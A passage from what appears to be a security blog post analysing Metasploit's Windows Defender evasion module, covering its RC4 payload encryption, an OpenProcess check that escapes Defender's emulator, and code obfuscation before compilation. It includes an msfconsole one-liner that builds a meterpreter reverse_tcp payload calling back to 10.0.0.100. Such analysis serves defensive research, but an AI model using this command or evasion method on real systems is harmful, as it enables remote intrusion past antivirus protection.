 Or with the following one-liner from terminal:
```bash
./msfconsole -x 'use evasion/windows/windows_defender_exe; set verbose true; set payload windows/meterpreter/reverse_tcp; set LHOST 10.0.0.100; run;quit;'
```

So far so good. But when you transfer the malicious executable to the victim machine you're in for a surprise! Windows Defender detects it, your l33t hacker soul is devastated and you go in the corner to cry... rgiht? Or you could spend some time analysing the root cause for this and maybe fixing the issue :)

# Analysis  
---
First, let's see the source code of the evasion module, to know what to expect in the binary. The path to the module is `metasploit-framework/modules/evasion/windows/windows_defender_exe.rb`

![defender_evasion_module.png](https://idafchev.github.io/blog/assets/images/beating_defender/defender_evasion_module.png){: .align-center}  

The module uses RC4 with a random key (*1*{: style="color: Red"}) to encrypt the payload (*2*{: style="color: Red"})(*3*{: style="color: Red"}). The encrypted payload is placed in a C source file template as character buffer (*4*{: style="color: Red"}). The RC4 implementation is inside the rc4.h header file.  The C code allocates memory which will hold the decrypted payload, then uses OpenProcess WinAPI function to bypass the real-time protection and finally decrypts and executes the payload.

The OpenProcess technique is interesting one. Some really smart people with a lot of spare time have reversed the scanning and detection engine of Windows Defender (`C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{GUID}\mpengine.dll`). It is a large 14 MB binary with over 40k functions and has emulation capabilities for x86, js, etc. 

![mpengine_disassembly.png](https://idafchev.github.io/blog/assets/images/beating_defender/mpengine_disassembly.png){: .align-center}  

Rapid7 found out that the function responsible for the emulation of OpenProcess always returns 1. Thus in order for malware to detect if it's running inside a sandbox it can use OpenProcess in such a way to make sure that it fails (returns 0). If the malware is in the Defenders sandbox then OpenProcess will return 1, but if it's running in a real environment OpenProcess will return 0. A simple `if` check is needed to bypass the real-time protection.

The Metasploit module tries to open the System process (PID 4) with `PROCESS_ALL_ACCESS (0x1F0FFF)` rights, which will certainly fail on a real system.

The C code is compiled with `Metasploit::Framework::Compiler::Windows.compile_random_c()` method which obfuscates the C code (*5*{: style="color: Red"}). This means that the code shown from the verbose output (the C template) is not the final code! The compilation is done in `metasploit-framework/lib/metasploit/framework/compiler/windows.rb`

![metasploit_windows_compiler_01.png](https://idafchev.github.io/blog/assets/images/beating_defender/metasploit_windows_compiler_01.png){: .align-center}  

The method responsible for the actual compilation (compile_c) uses Metasm - a pure ruby C compiler.

![metasploit_windows_compiler_03.png](https://idafchev.github.io/blog/assets/images/beating_defender/metasploit_windows_compiler_03.png){: .align-center}  

To print the actual code after the randomization and right befor compilation, just add puts:

![metasploit_windows_compiler_02.png](https://idafchev.github.io/blog/assets/images/beating_defender/metasploit_windows_compiler_02.png){: .align-center}  
